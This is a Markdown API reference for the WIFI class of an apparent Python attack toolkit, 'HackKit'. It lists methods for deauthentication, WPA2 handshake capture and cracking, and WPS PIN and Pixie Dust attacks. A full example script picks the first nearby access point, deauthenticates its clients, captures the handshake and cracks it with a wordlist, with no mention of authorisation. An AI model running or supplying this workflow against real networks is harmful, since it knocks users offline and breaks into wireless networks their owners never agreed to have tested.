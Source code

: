 
### 9. `WIFI`

**Platforms:** Linux only
**Dependencies:** aircrack-ng suite (`iwconfig`, `airmon-ng`, etc.)

#### Methods

| Method                                                                                               | Signature                             | Description |
| ---------------------------------------------------------------------------------------------------- | ------------------------------------- | ----------- |
| `__init__(interface: Optional[str]=None)`                                                            | Set interface; installs missing tools |             |
| `automatic_dependency_checking()`                                                                    | Checks & installs all required tools  |             |
| `detect_interfaces() -> List[str]`                                                                   | Returns list of wireless interfaces   |             |
| `enable_monitor_mode(interface: str) -> None`                                                        | Enable monitor mode                   |             |
| `disable_monitor_mode(interface: Optional[str]=None) -> None`                                        | Disable monitor mode                  |             |
| `scan_access_points(interface: Optional[str]=None, timeout: int=15) -> List[Dict[str,str]]`          | Returns BSSID, CHANNEL, ESSID         |             |
| `deauth_attack(bssid: str, client_mac: Optional[str]=None, count: int=10) -> None`                   | Send deauth frames                    |             |
| `capture_handshake(bssid: str, output_file: str, timeout: int=60) -> None`                           | Capture WPA2 handshake                |             |
| `crack_wpa2(handshake_file: str, wordlist: str, output_file: str) -> None`                           | Crack handshake                       |             |
| `enumerate_clients(bssid: str, interface: Optional[str]=None) -> List[str]`                          | List connected clients                |             |
| `identify_device_technology(mac: str) -> Optional[str]`                                              | OUI vendor lookup                     |             |
| `wps_pin_attack(bssid: str, interface: Optional[str]=None, timeout: int=120) -> None`                | WPS PIN brute                         |             |
| `wps_pixie_dust(bssid: str, interface: Optional[str]=None, output_file: Optional[str]=None) -> None` | Pixie dust attack                     |             |
| `packet_injection_test(interface: Optional[str]=None) -> bool`                                       | Test injection capability             |             |

##### Example: WIFI Master Example

```python
from HackKit import WIFI

wifi = WIFI(interface="wlan0")
# Detect
ifaces = wifi.detect_interfaces()
print(ifaces)
iface = ifaces[0]
# Enable monitor
wifi.enable_monitor_mode(iface)
# Scan APs
aps = wifi.scan_access_points(timeout=10)
print(aps)
bssid = aps[0]['BSSID']
# Deauth one client
wifi.deauth_attack(bssid=bssid, count=5)
# Capture handshake
wifi.capture_handshake(bssid, output_file="hand.cap", timeout=60)
# Crack handshake
wifi.crack_wpa2("hand.cap","rockyou.txt","cracked.txt")
# Enumerate clients
clients = wifi.enumerate_clients(bssid)
print(clients)
# Packet injection test
print(wifi.packet_injection_test())
```

---